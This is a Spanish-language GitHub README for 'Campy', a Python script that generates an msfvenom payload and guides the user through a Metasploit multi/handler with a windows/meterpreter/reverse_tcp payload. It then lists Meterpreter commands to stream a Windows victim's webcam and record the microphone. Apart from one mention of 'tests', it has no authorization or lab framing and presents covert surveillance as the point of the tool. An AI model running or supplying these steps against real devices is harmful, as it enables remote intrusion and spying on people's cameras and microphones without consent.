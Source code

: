 ![Campy-banner](https://user-images.githubusercontent.com/107135484/191642751-89b564d2-0905-461c-8116-feda740b7cbf.png)
<p align="center">
   <img src="https://img.shields.io/badge/STATUS-EN%20DESAROLLO-green">


## Comenzando 🚀

_Campy es un script basico, con el cual podras optimizar la creacion de un paquete venom para hacer pruebas  con metasploit y poder acceder a la camara y microfono de un dispositivo Windows._




### Pre-requisitos 📋

_1. Actualizar paquetes_
```
sudo apt update && sudo apt upgrade
```

_2. Verifica que tengas pip instalado:_

```
pip --version
```
_Ejecuta, en caso de no tenerlo instalado:_
```
sudo apt-get install python-pip
```
_3. Verifica que tengas git instalado:_

```
git --version
```
_Ejecuta, en caso de no tenerlo instalado:_
```
sudo apt-get install git
```



### Instalación 🔧

_Ahora si clonas el repositorio o lo descargas. Como prefieras_

```
git clone https://github.com/TDI-CO/Campy.git
```
```
cd Campy
```
_Instalamos los requerimientos_

```
sudo pip install pyautogui
```
```
sudo python3 campy.py
```

## Ejecutando las pruebas ⚙️

_Campy utilizara socket para tener tu ip y agregarla al codigo de venom, luego te solicitaara un puerto el cual por defecto puedes poner 4444 y por ultimo un nombre para el paquete_

![Sin-título-1](https://user-images.githubusercontent.com/107135484/191758074-5ffde2c3-1dfe-4d12-9c47-144e20d5065f.png)

_Para poder monitorear:_

```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
_Es muy importante que coloques la misma ip y puertos_
```
set LHOST "TU DIRECCION IP"
```
```
set LPORT "EL PUERTO QUE ELEGISTE"
```
```
show options
```
```
exploit
```
## Monitorear camara 📸

_Primero enlistamos las camaras_
```
webcam_list
```
```
webcam_stream "ELIGE UN NUMERO DE LA LISTA"
```

## Monitorear mricofono 🎤

```
record_mic -d "segundos"
```

## Construido con 🛠️

_Este script fue desarrollado con python_


* **Siguenos en instagram** - *Desarrolladores* - [The Dark Island](https://www.instagram.com/tdi_colombia/)

## Esperamos te sirva 🎁

* Comenta a otros sobre este proyecto 📢
* Invita una cerveza 🍺 o un café ☕ a alguien del equipo.
* Dona a nequi: `323 370 1359`



---
⌨️ con ❤️ por [TDI](https://www.instagram.com/tdi_colombia/) 😊
